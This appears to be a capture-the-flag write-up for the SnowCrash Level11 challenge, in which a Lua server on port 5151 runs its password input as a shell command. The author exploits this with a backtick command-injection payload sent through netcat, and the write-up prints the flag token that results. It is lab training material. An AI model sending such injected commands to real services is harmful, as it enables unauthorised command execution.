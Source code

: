 # Level11

We are greeted by a `level11.lua` file owned by `flag11` in our home directory. After a brief read, it appears to start a server running on port 5151. When trying to run the script, it tells us: `address already in use`. This indicates the server is running already.

```
level11@SnowCrash:~$ nc localhost 5151
Password:
```

When connecting with `netcat` we are prompted to enter a password. Looking at the `function hash(pass)` in the lua script, we see our input is directly executed as a shell command...

```
level11@SnowCrash:~$ netcat localhost 5151
Password: `getflag > /tmp/flag`
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

Easy enough. Onto `su level12`